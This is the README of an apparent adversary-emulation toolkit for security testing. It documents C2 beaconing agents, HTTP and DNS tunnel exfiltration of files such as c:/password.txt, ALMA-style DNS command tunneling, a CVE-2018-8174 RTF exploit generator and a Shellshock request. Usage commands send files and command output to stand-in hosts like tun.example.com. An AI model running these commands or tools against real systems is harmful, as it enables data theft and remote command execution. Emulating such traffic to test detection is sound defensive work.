


# Command and Control (C2) Traffic Emulation

## Components
* agent.py
* server.py

## Test Cases Covered
* B1-B4: HTTP Beaconing
* B5-B8: HTTPS Beaconing

## Testing and Building

### Prerequisites
1. Download and install python. This project runs well on python 2.7.18 and python 3.8.3
2. Install the following python modules
```sh
pip install requests pyOpenSSL
```

For windows, the pre-compiled .exe executables in the `dist` folder can be used.

## Running Test Cases

### Logging
When executing the `agent.py` and `server.py` via cmd prompt, the http request and response will be automatically logged in `my.log` under the same directory

### Running the server.py

```bash
python server.py -port 8888
```

server will be running and listening on port 8888, if no port argument provided, server will be listening on port 4443 for HTTPS Beaconing and 80 for HTTP Beaconing by default. 

Upon receiving `GET` request from the agent, the server will reply random commands, depending on the operating system of the agent, for the agent to execute.

Upon receiving `POST` request from the agent, the server will save the base64 decoded value of the output into a txt file with the filename md5 hash of the hostname of the agent.

### Running the agent.py

```bash
python agent.py -host 127.0.0.1 -port 8888 -i 80 -j 0.25
```

agent will be sending beacons in the form of HTTP GET requests to the server at an interval of 80 seconds and 0.25 variation(any value from 60 seconds to 100 seconds). 

Agent will then execute the command received from the server. 

After executing the command, it will send HTTP POST requests to upload the output to the server.

## Others

### Generating certificates

For HTTPS Beaconing, server will automatically generate a new certificate every time.


# Data Exfiltration/Leakage Traffic Emulation

## Components
* sender.py
* receiver.py

## Test Cases Covered
* E1: HTTP Exfiltration
* E2: DNS Exfiltration

## Installation

### Prerequisites
1. Download and install python. This project runs well on python 2.7.18 and python 3.8.3
2. Install the following python modules
```sh
pip install requests dnslib dnspython Faker
```

For windows, the pre-compiled .exe executables in the `dist` folder can be used.

### Logging
When executing the `sender.py` and `receiver.py` via cmd prompt, the http request and response or the DNS query and response will be automatically logged in `my.log` under the same directory

### Running the receiver.py for HTTP Exfiltration

```bash
python receiver.py -port 8888
```

server will be running and listening on port 8888, if no port argument provided, server will be listening on port 80 by default. 

Upon receiving `POST` request from the sender, the receiver will save the file content in the POST request.

### Running the sender.py for HTTP Exfiltration

```bash
python sender.py -url http://127.0.0.1/ -f c:/password.txt
```

sender will be sending the file located at `c:/password.txt` to the http server at http://127.0.0.1/. If no file specified, sender will generate a csv file containing 100 entries of PII data and send it to the server.

### Running the receiver.py for DNS Exfiltration

```bash
python receiver.py -domain tun.example.com
```

server will be running and listening for the DNS TYPE TXT query on `*.tun.example.com`

Upon receiving the DNS TYPE TXT query on `*.tun.example.com`, server will process the query and save the data into a file.

### Running the sender.py for DNS Exfiltration

```bash
python .\sender.py -domain tun.example.com -dns 192.168.1.136 -f c:/password.txt 
```

sender will be sending the file located at `c:/password.txt` via the DNS tunnel of `tun.example.com` to the DNS server 192.168.1.136. If no file specified, sender will generate a csv file containing 100 entries of PII data and send to the server. If no DNS server specified, sender will use the local DNS.

### Screenshot on DNS Exfiltration


## Others

### Details on DNS tunneling

The scripts emulate the malware behavior of exfiltrating sensitive data through DNS tunnel to the server

you need to have a pre-configured domain(suppose you own `example.com` and a server with IP `7.7.7.7`):

|      Name      | Type | Content        |
| :------------: | ---- | -------------- |
|      tun       | NS   | ns.example.com |
| ns.example.com | A    | 7.7.7.7        |

so all the DNS query regarding `*.tun.example.com` will be relayed to `ns.example.com`, which resolves to the server that I have control of. 

All I need to do is to set up a listener on the server side, listen on the port 53 for UDP data, and parse as DNS query packet, and respond to it.

#### Current implementation:

This is what sender.py does:

1. check if the specific file exists, if not, generate a csv file containing 100 entries of PII data. Below assume `test.csv` is generated
2. send a initializing DNS TXT query of `SU5JVA==.dGVzdC5jc3Y=.tun.example.com`, where `SU5JVA==` is the base64 encoded from `INIT` and `dGVzdC5jc3Y=` is base64 encoded from `test.csv`
3. wait for the server to respond with the TXT record of the string `OK`
4. read the csv files 45 bytes by 45 bytes, encode it using base64, for example, `last name,first name,title,telephone number,s` will be encoded to `bGFzdCBuYW1lLGZpcnN0IG5hbWUsdGl0bGUsdGVsZXBob25lIG51bWJlcixz`
5. encode the ordinal number using base64, for example, `0` will be encoded to `MA==`. The ordinal number starts from 0 and wraps around 9. So the 10th DNS query will have the ordinal number of 0
6. piece up the encoded data, ordinal number and the base domain, get `bGFzdCBuYW1lLGZpcnN0IG5hbWUsdGl0bGUsdGVsZXBob25lIG51bWJlcixz.MA==.tun.websec.pw`. Send a DNS TXT query of this domain. 
7. Wait until the server respond with the TXT record of the string `OK`, go to step 4 and send the next 45 bytes of data.

Server.py will do the necessary check to make sure the data is in order and intended. Then will respond with `OK` and save the data to the file.


# Network Protocol Abuse Emulation

## Components

* agent.py
* server.py

## Test Cases Covered

* C1: Standard ALMA DNS Tunneling
* C2: Modified ALMA DNS Tunneling - shorter labels

## Installation

### Prerequisites

1. Download and install python. This project runs well on python 2.7.18 and python 3.8.3
2. Install the following python modules

```sh
pip install dnspython dnslib
```

For windows, the pre-compiled .exe executables in the `dist` folder can be used.

### Logging

When executing the `agent.py` and `server.py` via cmd prompt, the DNS query and response will be automatically logged in `my.log` under the same directory

### Running the server.py

```bash
python server.py -domain tun.example.com
```

server will be running and listening for the DNS TYPE A query on `*.tun.example.com`

Upon receiving the DNS TYPE A query on `*.tun.example.com`, server will process the query and send back the command encapsulated in the DNS TYPE A response for the agent to execute.

After the agent finished execution and send back the output encapsulated in the DNS TYPE A query , server will process the DNS query and piece up the output, then print out to the stdout.

### Running the agent.py

```bash
python agent.py -domain tun.example.com -dns 192.168.1.136 -i 80 -j 0.25 
```

agent will be sending beacons in the form of DNS TYPE A query to the server at an interval of 80 seconds and 0.25 variation(any value from 60 seconds to 100 seconds). If no DNS server specified, sender will use the local DNS.

Agent will then execute the command received from the server.

After executing the command, it will send DNS TYPE A query to upload the output to the server.

### Screenshot on Standard ALMA DNS Tunneling



## Others

### How is the information encapsulated in the DNS TYPE A query?

You can take a look at this article: https://unit42.paloaltonetworks.com/unit42-oilrig-deploys-alma-communicator-dns-tunneling-trojan/

### What is the difference between `C1: Standard ALMA DNS Tunneling` and `C2: Modified ALMA DNS Tunneling - shorter labels`

`Standard ALMA DNS Tunneling` is following strictly on the domain generation mentioned in the article above. While the `Modified ALMA DNS Tunneling - shorter labels` has done some modification to it to make the domain shorter.

- domain for `Standard ALMA DNS Tunneling` 

  - to retrieve the command from the server for execution:

  ```
  {random string of 4 digits}ID{unique id}-0-2D-2D.base_domain
  ```

  - to upload the output to the server after execution of command:

  ```
  {random string of 4 digits}ID{unique id}-cnt-{string of hexadecimal bytes for sent data(10 bytes maximum)}-{string of hexadecimal bytes for filename being sent}.base_domain
  ```

  - the unique id is 8 bytes. 0,4,8,12,16,20,24,28th bytes of `md5(username+"_"+ProductID)`

- domain for `Modified ALMA DNS Tunneling - shorter labels` 

  - to retrieve the command from the server for execution:

  ```
  {random string of 2 alphanumerics}ID{unique id}-0-2D-2D.base_domain
  ```

  - to upload the output to the server after execution of command:

  ```
  {random string of 2 alphanumerics}ID{unique id}-cnt-{string of hexadecimal bytes for sent data(7 bytes maximum)}-{string of hexadecimal bytes for filename being sent}.base_domain
  ```

  - the unique id is 4 bytes. 0,8,16,24th bytes of `md5(username+"_"+ProductID)`


# Perimeter Breach Emulation

## Components

* exp.py(for F1 and F2)
* server.py(for F2 only)

## Test Cases Covered

* F1 - RCE Vulnerability Exploit
* F2 - Injection Attempt - Shellshock, HTTP Request

## Installation

### Prerequisites

1. Download and install python. This project runs well on python 2.7.18 and python 3.8.3
2. Install the following python modules

```sh
pip install dnspython dnslib
```

For windows, the pre-compiled .exe executables in the `dist` folder can be used.

### Logging

When executing the `exp.py` and `server.py` via cmd prompt, the http request and response will be automatically logged in `my.log` under the same directory

### Running the exp.py for RCE Vulnerability Exploit

```bash
python exp.py -uri test -srvhost 192.168.1.136 -srvport 8008 -filename test.rtf
```

exp will generate a test.rtf which trys to exploit CVE-2018-8174 vulnerability, and set up a evil web server listening on port 8008. 

Attacker can send the generated test.rtf to the victim, when the victim opens it using word or wordpad, it will try to access the resource at http://192.168.1.136:8008/test and triggers the CVE-2018-8174 vulnerability by popping out a calculator.

Or attacker send the victim the link http://192.168.1.136:8008/test.rtf, when the victim open the link, he will be prompted to download test.rtf, and the above process will continue.

Or attacker send the victim the link http://192.168.1.136:8008/asdf, when the victim open the link using vulnerable Internet Explorer, it will trigger the CVE-2018-8174 vulnerability by popping out a calculator.

### Screenshot on RCE Vulnerability Exploit


### Running the server.py for Injection Attempt - Shellshock, HTTP Request

```bash
python server.py -port 8008
```

server will start up a http server and listening on port 8008. It will emulate an Apache server which is vulnerable to shellshock.

### Running the exp.py for Injection Attempt - Shellshock, HTTP Request

```
python exp.py -rhost 192.168.1.136 -rport 8008 -pages /cgi/test.cgi -command whoami
```

client will send malicious http GET request to http://192.168.1.136:8008/cgi/test.cgi execute the command `whoami`

### Screenshot on Injection Attempt - Shellshock, HTTP Request

